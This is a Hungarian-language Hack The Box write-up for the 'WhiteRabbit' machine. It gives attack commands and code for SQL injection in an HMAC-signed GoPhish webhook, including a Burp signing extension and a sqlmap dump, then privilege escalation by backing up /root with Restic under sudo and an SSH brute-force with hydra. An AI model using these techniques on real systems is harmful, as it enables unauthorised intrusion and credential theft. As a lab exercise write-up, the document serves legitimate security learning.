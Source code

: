 
# HTB WhiteRabbit - Writeup (magyar)

> 🚨 **Kövess élőben HTB-n — leakek, dropok és mély writeupok**  
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)  
> _Ne olvasd. Csatlakozz._

**Platform:** Linux  

**IP:** 10.10.11.63

**Difficulty:** Insane  

**Author:** NoSec  


## Felderítés / Recon

```bash
22/tcp   open  ssh           OpenSSH 8.9p1 (protocol 2.0)
80/tcp   open  http          Caddy httpd
2222/tcp open  ssh           OpenSSH 8.9p1 (protocol 2.0)
```
Szolgáltatás infó: OS valószínűleg Linux-alapú, a Caddy webszerver fut.

---

## Előkészítés

- **Host fájl szerkesztése**
    ```bash
    sudo nano /etc/hosts
    ```
    ```
    10.10.11.XX     whiterabbit.htb status.whiterabbit.htb
    
- **Clock skew (időszinkron, ha szükséges)**
```bash
sudo rdate -n whiterabbit.htb
```

---

## Alközpontok és Web Feltárás

**Alközpontok felfedezése:**

A whiterabbit.htb alatti /status/ végpontot brute-force-olva (pl. gobuster,ffuf) megtaláltam a status.whiterabbit.htb-t, ami Uptime Kumát futtat. Egy kis kutakodás ([redacted URL] után a /status/temp/ oldalon új alközpontokat találtam:

- GoPhish: ddb0<link>.whiterabbit.htb
- Wikijs: a668<link>.whiterabbit.htb

**Webhookok nyomozása:**

A Wikijs endpoint ([redacted URL] egy webhookot mutatott az 28e<link>.whiterabbit.htb felé, ami gyanúsan nézett ki.

**Kihasználás / Exploitation**

SQLi a Webhookban

A webhook egy x-gophish-signature HMAC aláírást követelt. A titkos kulcsot innen szedtem ki:

Forrás: [redacted URL]
Kulcs: 3CWV<key>

Az HMAC-ot a CyberChef-fel generáltam ([redacted URL] és egy teszt payloaddal SQLi-t próbáltam:
```bash
{"campaign_id":2,"email":"test \$\"","message":"Clicked Link"}
```
Láttam egy MySQL hibát, szóval sebezhető!

**BurpSuite Automatizálás**

Manuálisan lassú volt, ezért egy Burp kiterjesztést intéztem, ami automatikusan hozzáadja az HMAC fejlécet:

```bash
from burp import IBurpExtender, ISessionHandlingAction
from java.io import PrintWriter
from datetime import datetime
import hashlib, hmac

class BurpExtender(IBurpExtender, ISessionHandlingAction):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("HMAC Header")
        PrintWriter(callbacks.getStdout(), True).println("HMAC Header OK")
        callbacks.registerSessionHandlingAction(self)
        PrintWriter(callbacks.getStdout(), True).println("Session started")
        return

    def getActionName(self):
        return "HMAC Header"

    def performAction(self, currentRequest, macroItems):
        Secret = "3CWV<redacted>"
        stdout = PrintWriter(self._callbacks.getStdout(), True)
        requestInfo = self._helpers.analyzeRequest(currentRequest)
        BodyBytes = currentRequest.getRequest()[requestInfo.getBodyOffset():]
        BodyStr = self._helpers.bytesToString(BodyBytes)
        _hmac = hmac.new(Secret, BodyStr, digestmod=hashlib.sha256).hexdigest()
        headers = requestInfo.getHeaders()
        headers.add("x-gophish-signature: sha256=" + _hmac)
        message = self._helpers.buildHttpMessage(headers, BodyStr)
        currentRequest.setRequest(message)
        return
```
Telepítve a Burp Custom Extensions-ben (https://www.pentestpartners.com/security-blog/burp-hmac-header-extensions-a-how-to/)

**SQLmap Támadás**

Az SQLi-t sqlmap-mel automatizáltam:

```bash
sqlmap -u [redacted URL] POST --data '{"campaign_id":2,"email":"test@mail.com","message":"Clicked Link"}' -p email --proxy [redacted URL] --batch --dump --Level=5 --risk=3 -D temp -T command_log --flush
```

| ID  | Dátum               | Parancs                                                |
|-----|---------------------|---------------------------------------------------------|
| 103 | 2024-08-30 14:40:41 | `uname -a`                                             |
| 110 | 2024-08-30 15:16:05 | `restic init --repo rest:[redacted URL] |

**Jogosultság Növelés / Privilege Escalation**

-Restic Kihasználása

Egy Restic tárolót találtam [redacted URL] jelszóval: ygcsv<redacted> Ezzel mentést csináltam a /root/-ról:

```bash
export RESTIC_PASSWORD=ygcsv<pass>
export RESTIC_REPOSITORY=rest:[redacted URL]
sudo /usr/bin/restic init -r .
sudo restic -r . backup /root/
sudo restic -r . dump latest /root/morpheus
```
Kinyertem egy SSH kulcsot a morpheus-hoz, így be tudtam lépni:

```bash
ssh morpheus@whiterabbit.htb -p 22
```

```bash
morpheus@whiterabbit:/home/morpheus# ls
user.txt

```
User flag pipa! 🚀

**Neo Jelszó Generálás**

A /opt/neo-password-generator/neopassword-generator binárist Ghidra-val néztem meg. A gettimeofday()-ot használja seedként:

 -Számítás: tv_sec * 1000 + tv_usec / 1000 
 -20 karakteres jelszót generál rand() % 62-vel.
 
Mivel a neo 2024-08-30 14:40:42-kor futtatta, a másodperceket tudom, de a mikromásodperceket bruteforce-olnom kellett (0-999). Egy Python szkriptet használtam:

```python
from ctypes import CDLL
import datetime
libc = CDLL("libc.so.6")
seconds = datetime.datetime(2024, 8, 30, 14, 40, 42, tzinfo=datetime.timezone.utc).timestamp()
for i in range(0, 1000):
    # [Itt a rand() logika lenne, C-vel pontosabb]
```
Legeneráltam és jöhetett az SSH bruteforece.

```bash
python3 password_generator.py > passwords.txt
```

```bash
hydra -l neo -P passwords.txt ssh://whiterabbit.htb -t 20
```

Jelszó:
```nginx
WB<pass>
```

Miután beléptünk SSh-n már csak egy sudo -su parancsot kell használnunk, és kezünkben a root flag


```bash
root@whiterabbit:~# ls
root.txt
```

---

### 🧠 Jegyzetek & Magyarázat – Mit tanultam a gépből?

- **Webhook & SQLi abuse:** Az Uptime Kuma sebezhetőségei izgalmasak voltak, főleg a custom HMAC trükközés miatt.  
- **Restic kihasználás:** Meglepő volt, hogy egy sima backup tool milyen mértékű jogosultságemelést tud biztosítani.  
- **Bináris analízis:** A `gettimeofday()` alapú jelszógenerálás bruteforce-olása kemény agytorna volt.  
- **Automatizálás:** A Burp Suite és sqlmap kombó rengeteg időt spórolt, főleg a HMAC headerrel való szórakozásnál.

---

### ⚠️ Hibák, csapdák, tanácsok

- **Időszinkronra figyelj!** Elcsúszott idő esetén az SSH vagy más lépések fail-elnek.  
- **Bruteforce-hoz türelem kell!** A `/status/temp/` endpointot sokáig kerestem – fontos a jó lista.  
- **Spoilermentesen dokumentálj!** Ne írj le mindent, más is élvezhesse a felfedezést.  
- **Tesztelj újra mindent!** Az HMAC kulcsot például kétszer validáltam, mielőtt sqlmap-et futtattam volna.

---

### ✅ Összegzés

A WhiteRabbit egy remekül összerakott gép: a webes kihasználásoktól egészen a kreatív jogosultság-eszkalációig visz.  
Az Uptime Kuma, SQLi, Restic és bináris analízis kombója igazi pentester csemege volt.  
Mindkét flag megszerezve – user is, root is – szóval elégedett vagyok. 🚀

---

**Ajánlom mindenkinek**, aki szereti a kihívásokat, és néha szívesebben törne kreatív Linuxos gépeket AD helyett.  
Ha kérdésed van: keress bátran! 💬

---



